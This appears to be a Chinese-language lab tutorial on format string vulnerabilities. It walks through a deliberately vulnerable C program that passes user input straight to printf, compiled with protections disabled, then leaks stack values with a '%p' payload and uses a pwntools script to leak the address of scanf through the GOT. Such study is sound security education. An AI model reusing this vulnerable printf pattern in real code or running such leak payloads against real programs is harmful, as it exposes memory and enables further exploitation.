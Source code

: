 格式化字符串中的符号说明多余参数个数时，会造成泄漏，如果格式化字符串由用户控制，就可以造成任意地址的泄漏。用户可以通过输入更多的符号说明来控制泄漏的多少。

代码示例：`printf-vuln2.c`

```c
#include <stdio.h>

int main()
{
    char *h = "Hello, what's your name?\n";
    printf(h);
    char name[100] = {0};
    scanf("%s", name);
    printf(name);
    printf("\n");			// 为了让printf能及时的输出
    return 0;
}
```

编译：`gcc -no-pie -fno-stack-protector -m32 -o printf-vuln2 printf-vuln2.c`

构造payload: `%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n`

执行`./printf-vuln2`，输入上面paylod

![image-20220412223913622](/Users/liuy/workspace/PWN/img//image-20220412223913622.png)

可以看到造成了一个泄漏。

gdb调试

![image-20220413222850006](/Users/liuy/workspace/PWN/img//image-20220413222850006.png)

查看此时栈的内容

![image-20220413223411413](/Users/liuy/workspace/PWN/img//image-20220413223411413.png)

可以使用x查看这些栈的内容，从这里可以看出8个%p对应的值为

![image-20220413223634487](/Users/liuy/workspace/PWN/img//image-20220413223634487.png)

实际输出，看下真实结果，和上面判断一致。

![image-20220413223854279](/Users/liuy/workspace/PWN/img//image-20220413223854279.png)

换一个payload：`printf-vuln2-exp.py`

```python
from pwn import *

# context.terminal = ['tmux', 'splitw','-h']
p = process("./printf-vuln2")

code = ELF("./printf-vuln2")

pwnlib.gdb.attach(proc.pidof(p)[0])

context(arch=code.arch, os="linux", log_level="debug")

p.recv()

p.sendline("%7$s"+p32(code.got['__isoc99_scanf']))
scanf = u32(p.recv(4))
print(hex(scanf))

# p.interactive()
```
